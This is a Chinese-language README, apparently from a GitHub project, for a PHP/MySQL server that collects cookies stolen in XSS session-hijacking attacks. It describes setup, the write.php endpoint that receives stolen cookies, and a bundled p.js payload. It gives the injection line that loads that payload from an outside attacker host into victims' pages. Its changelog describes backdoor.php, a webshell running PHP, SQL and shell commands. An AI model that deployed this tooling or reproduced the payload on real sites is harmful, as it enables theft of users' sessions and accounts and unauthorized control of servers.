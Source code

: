 #XSS So easy
##简介
此网站用于XSS Cookie 劫持攻击中接收并储存Cookie。  
适用于 PHP MySQL。  

##使用方法
###安装配置
1. 配置`config.php`，填写数据库用户名、密码等信息。  
2. 访问`install.php`：创建数据库、表等操作。  

###使用  
通过`write.php`，GET或者POST方法传输获取到的Cookie。  
可供提交的参数为`domain location toplocation cookie opener`。其中`domain`必填。  
含有payload：`p.js`。  

##附加功能
各个页面的访问密码  
自定义网站名称（title和页面中显示）  
自定义开发者信息（底部显示）  

##TODO
PHP提醒，mysql_connect()函数以后会被抛弃。考虑改写成新版函数。  

##Update
###2015-9-12 21:05:48
一条不当的payload，使数据库里多了几百条垃圾数据。  
于是我写了执行SQL语句的backdoor.php。（支持密码）  

###2015-9-16 10:44:21
自我感觉默认配置的颜色过于小清新。于是分离出color.css文件，可以自行配置颜色。  
出于复（xián）习（de）知（dàn）识（téng）的目的，做了个color.php，向color.css写入数据。  
后门支持PHP、SQL、shell命令执行，且支持SQL SELECT命令结果显示。SQL的INSERT UPDATE DELETE影响行数显示。（突然发现做了个WebShell）  
输出表格增加\n使HTML源文件易读。  
由于空字符串在if语句中效果同false，因此system()返回最后一行为空时应使用if($foo !== FALSE)。其他情况同理。  
改变字体为等宽字体。个别地方，中文使用微软雅黑。  
使用Eclipse排版一下。其他一些细节调整优化。  

###2015-9-16 22:25:33
CSS文件已改为PHP文件读写。  
在Windows上运行系统命令时输出字符集为GBK，增加自动转换为UTF-8。  

###2015-9-21 21:26:59
密码验证方式由GET改为POST，并增加install和testMySql页面密码功能  
分离出CSS文件，并移动到style/main.css  
增加read.php条件查询  

###2015-10-20 15:45:32
修改数据库，更改url字段名为location并允许NULL，增加toplocation（用于框架）、opener。  
**从旧的数据库变更请在backdoor.php执行SQL命令**：  

	alter table info change url location longtext NULL
	alter table info add toplocation longtext
	alter table info modify column cookie longtext after toplocation
	alter table info add opener longtext
	describe info  

增加p.js作为payload，修改内部write.php域名和路径即可使用。  
`<script src=http://xxx.xxx/p.js></script>`  

###2015年11月19日 21:43:46
近期更新：  
  
- `read.php`默认的倒序排序，增加删除键，调整样式  
- 改进`backdoor.php`交互设计
